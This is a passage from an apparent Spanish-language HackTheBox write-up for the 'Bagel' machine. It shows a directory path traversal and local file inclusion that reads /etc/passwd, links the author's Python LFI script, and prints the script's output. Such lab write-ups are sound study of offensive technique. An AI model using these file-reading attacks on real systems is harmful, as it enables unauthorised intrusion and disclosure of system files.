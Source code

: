 ![](/assets/images/htb-writeup-bagel/web1.png)

Bueno de primeras vamos a hacer una prueba para ver si podemos leer el **/etc/passwd**

![](/assets/images/htb-writeup-bagel/web2.png)

Vamos a hacer un **directory path traversal** para ir varios directorios hacia atrás 

![](/assets/images/htb-writeup-bagel/web3.png)

Si aplicamos eso nos descarga un archivo llamado **passwd** y podemos ver el contenido del archivo 

```bash
❯ catn passwd | grep bash
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

Hice este script en **Python3** para automatizar el **LFI** desde consola puedes encontrarlo en mi github te dejo aquí el link <https://github.com/MikeRega7/Scripts/blob/main/HackTheBox/Bagel/lfi.py>

```bash
❯ python3 lfi.py /etc/passwd
[.] Mostrando archivo indicado: Listo
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
```